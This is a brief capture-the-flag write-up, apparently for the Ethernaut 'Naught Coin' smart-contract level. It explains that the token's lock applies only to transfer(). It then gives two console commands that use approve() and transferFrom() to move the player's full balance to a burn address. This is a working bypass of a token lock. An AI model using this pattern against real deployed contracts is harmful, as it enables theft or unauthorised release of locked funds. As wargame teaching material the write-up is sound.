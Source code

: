 ### Analysis
The Naught Coin smart contract only implements the transfer function!It looks like approve combined with transferFrom will do the transfer job.

### The Exploit
~~~
await contract.approve(player, await contract.balanceOf(player));
await contract.transferFrom(player, '0x000000000000000000000000000000000000dEaD', await contract.balanceOf(player));
~~~